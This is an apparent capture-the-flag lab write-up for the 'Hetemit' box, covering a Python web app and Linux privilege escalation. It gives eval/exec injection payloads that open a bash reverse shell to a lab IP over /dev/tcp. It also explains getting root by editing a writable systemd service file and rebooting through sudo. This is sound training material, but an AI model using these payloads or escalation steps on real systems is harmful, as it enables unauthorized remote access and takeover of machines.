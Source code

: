 ### Hints since I'm in rush

There are two webapps running on non-standard ports.

Focus on the /verify endpoint. Try different inputs in the code parameter.

Look at writable files and check your sudo permissions. 

### Webapps
`?code=XXX` first then change/covert to POST

1+1 to discover the SSRF

https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1

##### Exec()

exec() is similar to eval() as they both have the ability to execute Python code from a given string input. The following program could be exploited in the same way as above:
```
def addition(a, b):
  return exec("%s + %s" % (a, b))addition(request.json['a'], request.json['b'])
  ```
##### Eval()
```payloads for Eval()
"a":"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#", "b":"2"
"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#"
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1') <--- working
```
https://imtodess.gitbook.io/writeups/pg/get-to-work/linux/hetemit

### Foothold

```bash
[cmeeks@hetemit restjson_hetemit]$ pwd
pwd
/home/cmeeks/restjson_hetemit
```

### sudo -l
https://security.stackexchange.com/questions/246288/sudo-usr-sbin-halt-usr-sbin-reboot-usr-sbin-poweroff-how-to-leverag

The answer can be simple. Just like how you're doing privilege escalation by using cronjobs. You find a writable file and put your payload in then wait.

`sudo -l` gives "/usr/sbin/halt", "/usr/sbin/reboot", "/usr/sbin/poweroff" that means one thing here. You can reboot the machine as ROOT.

So, you need to look for some writable configuration files that trigger when start/reboot. `find . -writable` on /etc or just run linpeas.

The file is most likely owned by root. But read and writable in our favour. e.g.
```
ls -lh /etc/systemd/system/some.service
-rw-rw-r-- 1 root rob /etc/systemd/system/some.service
```
Maybe the file is running by root, then you find the exec line add `ExecXXX: you evil payload here`.

Or change the runner of it if that's not triggered by root in default. `User: low_level_user -> root`

### Find all files that are writable by the current user
```bash
find . -writable
```
```
ls -lh /etc/systemd/system/pythonapp.service
-rw-rw-r-- 1 root cmeeks 299 Sep 19 03:17 /etc/systemd/system/pythonapp.service
```

You have write privileges over /etc/systemd/system/pythonapp.service

re-shell got root

